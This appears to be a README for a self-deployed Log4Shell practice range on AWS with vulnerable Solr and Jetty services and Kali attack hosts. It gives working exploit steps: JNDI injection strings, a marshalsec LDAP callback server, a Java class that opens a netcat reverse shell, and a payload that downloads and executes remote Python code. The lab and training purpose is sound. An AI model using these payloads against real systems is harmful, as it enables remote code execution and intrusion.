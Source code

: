 # Wat?

This is a very small cloud hosted range for experimenting with the Log4Shell vulnerability.  It can automatically deploy the range to your AWS account, and configure it to contain:

* Vulnerable services
* Attack hosts (Kali)
* A Guacamole server simplifying interaction with the range

People connecting to your range will need nothing more than a webbrowser.  You will need Terraform and Ansible to deploy the range.

# Deploying the Range

First, deploy the infrastructure.  Check out `terraform/README.md`.

Then, configure it.  Check out `ansible/README.md`.

# Connecting to the Range

A Guacamole server will be available at the domain you setup when deploying the infrastructure.  It'll even have a nice Let's Encrypt cert, so hit it at https.

Alternatively, you can SSH into the hosts.  If you're in the ansible directory you can run something like the following to SSH to them through the jump host:

`eval $(../scripts/get_ssh_cmd.py "kali_host_01")`

That host name comes from the Ansible hosts file - the `get_ssh_cmd.py` builds an SSH command based on the host info...

![Network Map](log4j_range_diagram.png)

# Vulnerable Services

After deploying the range and connecting, you'll have a couple vulnerable services at your disposal.

## Solr

`http://{solr-addr}:8983/solr/admin/cores?anything=${jndi...}`

`http://{solr-addr}:8983/solr/admin/configs?anything=${jndi...}`

`http://{solr-addr}:8983/solr/admin/collections?anything=${jndi...}`

This project uses Solr version 8.8.0 from Docker Hub.  The version of Java is new enough that it requires a system property be misconfigured to work...  It needs `com.sun.jndi.ldap.object.trustURLCodebase=true`.

## Jetty

`http://{solr-addr}/?q=${jndi...}`

`curl -H "User-Agent: ${jndi...}"`

This project uses the vulnerable Jetty server included via [this project](https://github.com/kc0bfv/vulnerableJettyLog4Shell)

# Exploiting Log4J

The Kali box's Desktop README has some tips in it, and the address of the vulnerable server.  First, you'll want to nmap it to make sure you understand what you're going after.  Then you might hit the services in your browser to learn a little more...  After that, setup a callback server and send the exploit.

# Setting up a Callback Server

First - thank you to SANS who I stole this from.  https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4

From a kali box:

```
cd marshalsec
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://{kali_box_ip}:8080/#Log4JCallback"
```

From that kali box in a separate terminal:

```
python -m http.server 8080
```

Separately, on that kali box, in the same directory your webserver is now running in, drop this code into Log4JCallback.java:

```
public class Log4JCallback {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc {kali_box_ip} 8081 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```

Now compile that with `javac Log4JCallback.java`, and setup a netcat listener as mentioned in your code:

```
nc -v -l -p 8081
```

Now you've got three listeners setup.  Next you're going to send the message to the vulnerable server - the format is: `${jndi:ldap://{kali_box_ip}:1389/Log4JCallback}`.  The vulnerable server is going to log that jndi string, and Log4J is going to parse it and visit the ldap server on your Kali box at port 1389.  There it will find the marshalsec LDAP server, which will tell it to look for a Java class at a remote location, specifically your Kali box on port 8080.  The class will be requested from your Python webserver on port 8080, and will get executed on load.  That will run the "exec nc" code, calling back with a shell to your listener on port 8081.  You'll see the connections come in - with the last on your netcat port 8081 listener, and that last will be your remote shell.

You can also call back to a metasploit `web_delivery` handler by using a Log4JCallback that runs something like: `java.lang.Runtime.getRuntime().exec(new String[] {"python3", "-c", "import urllib.request; exec(urllib.request.urlopen('http://{kali_box_ip}:8080/{MSFending}').read())"});`

# Improvements Needed

For defense:

1. Blue team routing is too tied in with the red team.  They are both in the same VPC so the subnets default to allowing all connections to/from everywhere...  Putting blue and red in separate VPCs with peering rules between them might allow a more real-world division.
2. Blue team needs a security onion box so they can monitor what's going on.  This may require a specific routing device in the infrastructure too.  The security onion monitoring can get attached to capture all the info headed to a routing device interface.
3. I have no idea how this meets or fails to meet security standards that might be required at my workplace.

